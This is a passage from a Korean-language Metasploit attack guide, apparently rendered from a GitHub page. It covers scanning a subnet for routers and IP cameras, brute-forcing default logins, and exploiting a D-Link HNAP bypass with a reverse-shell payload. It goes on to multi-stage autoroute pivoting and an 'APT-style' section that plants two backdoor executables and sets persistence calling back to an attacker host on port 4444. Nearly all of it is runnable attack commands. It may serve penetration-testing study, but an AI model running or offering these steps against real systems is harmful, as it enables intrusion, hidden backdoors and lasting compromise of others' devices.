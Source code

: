 ### 상황: 라우터/IP 카메라 등 IoT 기기

#### 1단계: IoT 디바이스 발견

```bash
# IoT 디바이스 스캔
msf6 > use auxiliary/scanner/http/http_version
msf6 auxiliary(scanner/http/http_version) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(scanner/http/http_version) > set PORTS 80,8080,8081
msf6 auxiliary(scanner/http/http_version) > run

# 기본 크리덴셜 시도
msf6 > use auxiliary/scanner/http/http_login
msf6 auxiliary(scanner/http/http_login) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/http/http_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/http_default_users.txt
msf6 auxiliary(scanner/http/http_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt
msf6 auxiliary(scanner/http/http_login) > run
```

#### 2단계: 알려진 취약점 공격

```bash
# 공통 IoT 취약점 공격
msf6 > use exploit/linux/http/dlink_hnap_login_bypass
msf6 exploit(linux/http/dlink_hnap_login_bypass) > set RHOSTS 192.168.1.200
msf6 exploit(linux/http/dlink_hnap_login_bypass) > set PAYLOAD linux/mipsle/meterpreter/reverse_tcp
msf6 exploit(linux/http/dlink_hnap_login_bypass) > exploit
```

## 고급 공격 시나리오

### 다단계 피벗팅 공격

```bash
# 1차 시스템 장악 (DMZ)
# 2차 내부 네트워크 침투
# 3차 서버 세그먼트 침투

# 각 단계마다 라우팅 추가
meterpreter > run autoroute -s 10.0.1.0/24    # DMZ 네트워크
meterpreter > run autoroute -s 10.0.2.0/24    # 내부 네트워크
meterpreter > run autoroute -s 10.0.3.0/24    # 서버 네트워크
```

### 지속적 침투 (APT 스타일)

```bash
# 1. 초기 침입
# 2. 지속성 확보 (여러 방법 동시 사용)
# 3. 정찰 및 수집
# 4. 측면 이동
# 5. 목표 달성

# 다중 백도어 설치
meterpreter > upload backdoor1.exe C:\\Windows\\System32\\
meterpreter > upload backdoor2.exe C:\\Users\\Public\\
meterpreter > run persistence -S -U -X -i 5 -p 4444 -r 192.168.1.50
```
